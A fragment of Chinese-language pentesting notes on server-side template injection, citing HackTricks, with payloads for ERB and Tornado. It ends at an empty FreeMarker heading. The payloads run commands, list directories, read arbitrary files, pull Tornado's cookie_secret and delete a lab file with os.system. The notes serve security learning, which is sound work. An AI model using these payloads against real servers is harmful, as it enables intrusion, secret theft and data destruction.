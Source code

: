 >     ![Template decision tree](SSTI-burp.assets/template-decision-tree.png)

##### 0.4 引擎利用方式

##### [SSTI (Server Side Template Injection) - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#exploits)

###### ERB(Ruby)

* 命令执行

    ```
    <%= system("ls -la") %>
    ```

* 目录+文件读取

    ```
    <%= Dir.entries('/') %>
    <%= File.open('/example/arbitrary-file').read %>
    ```

* 

###### Tornado

* 通过`handler.application`即可访问整个Tornado。

    简单而言通过`{{handler.application.settings}}`或者`{{handler.settings}}`就可获得`settings`中的**cookie_secret**。

* 在Tornado里面，使用python语句，是`{% python_syn %}`

    如：`7*7}}{%import+os%}{{os.system("rm /home/carlos/morale.txt")}}`(可能需要url编码)

###### FreeMarker
